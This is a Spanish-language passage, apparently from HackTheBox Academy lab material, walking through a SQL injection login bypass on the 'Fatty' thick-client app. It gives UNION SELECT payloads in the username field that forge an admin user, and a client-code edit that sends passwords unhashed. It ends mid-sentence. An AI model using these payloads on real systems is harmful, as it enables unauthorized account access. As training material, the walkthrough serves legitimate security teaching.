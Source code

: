 Aunque el hash enviado al servidor por el cliente no coincide con el almacenado en la base de datos, y la comparación de contraseñas falla, aún es posible realizar una inyección SQL usando consultas `UNION`. Consideremos el siguiente ejemplo:

```r
MariaDB [userdb]> select * from users where username='john';
+----------+-------------+
| username | password    |
+----------+-------------+
| john     | password123 |
+----------+-------------+
```

Es posible crear entradas falsas utilizando el operador `SELECT`. Introducimos un nombre de usuario no válido para generar una nueva entrada de usuario:

```r
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+
```

De manera similar, la inyección en el campo de nombre de usuario puede aprovecharse para crear una entrada falsa de usuario:

```r
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

De esta forma, se puede controlar la contraseña y el rol asignado. El siguiente fragmento de código envía la contraseña en texto plano introducida en el formulario. Vamos a modificar el código en `htb/fatty/shared/resources/User.java` para enviar la contraseña tal cual desde la aplicación cliente:

```r
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }
```

Ahora podemos reconstruir el archivo JAR e intentar iniciar sesión utilizando el payload `abc' UNION SELECT 1,'abc','a@b.com','abc','admin` en el campo `username` y el texto aleatorio `abc` en el campo de `password`.

![bypass](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/bypass.png)

El servidor eventualmente procesará la siguiente consulta:

